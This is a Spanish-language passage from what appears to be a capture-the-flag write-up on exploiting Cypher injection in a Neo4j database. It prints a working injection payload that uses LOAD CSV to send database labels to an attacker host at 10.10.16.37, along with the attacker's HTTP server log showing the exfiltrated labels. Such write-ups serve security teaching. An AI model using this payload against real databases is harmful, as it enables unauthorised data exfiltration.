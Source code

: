 Esta consulta realiza varias operaciones:

1. `CALL db.labels()`: Obtiene todos los labels de los nodos en la base de datos.
2. `UNION`: Combina el resultado anterior con la parte siguiente de la consulta.
3. `LOAD CSV FROM 'http://10.10.16.37/?l='+label as l`: Envía la información de los labels a un servidor remoto (en este caso, a `http://10.10.16.37/`), lo que facilita la exfiltración de datos.
4. `RETURN 0 as _0`: Retorna un valor constante (0) al final de la consulta.

Este tipo de inyección permite obtener los labels de los nodos y, al mismo tiempo, filtrar la información hacia un servidor externo, lo que podría comprometer la seguridad de la base de datos al permitir la fuga de información sensible.

```cypher
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.37/?l='+label as l RETURN 0 as _0 //
```

<figure><img src="../../.gitbook/assets/imagen (471).png" alt=""><figcaption></figcaption></figure>

Al explotar la vulnerabilidad de inyección de Cypher, logramos obtener una lista de los **labels** presentes en la base de datos Neo4j de la siguiente manera.

La consulta permitió obtener los siguientes labels: `USER`, `HASH`, `DNS_NAME`, `SHA1`, `SCAN`, `ORG_STUB`, y `IP_ADDRESS`. Estos labels fueron enviados a un servidor web externo a través de solicitudes GET, lo que facilitó la exfiltración de información crítica sobre la estructura de los nodos en la base de datos.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=USER HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=HASH HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=DNS_NAME HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=SHA1 HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=SCAN HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=ORG_STUB HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:54] "GET /?l=IP_ADDRESS HTTP/1.1" 200 -
```

A través de la inyección de Cypher, se logró exfiltrar las propiedades de los nodos de tipo `USER` de la base de datos Neo4j utilizando la siguiente consulta:

Esta consulta realiza las siguientes acciones:
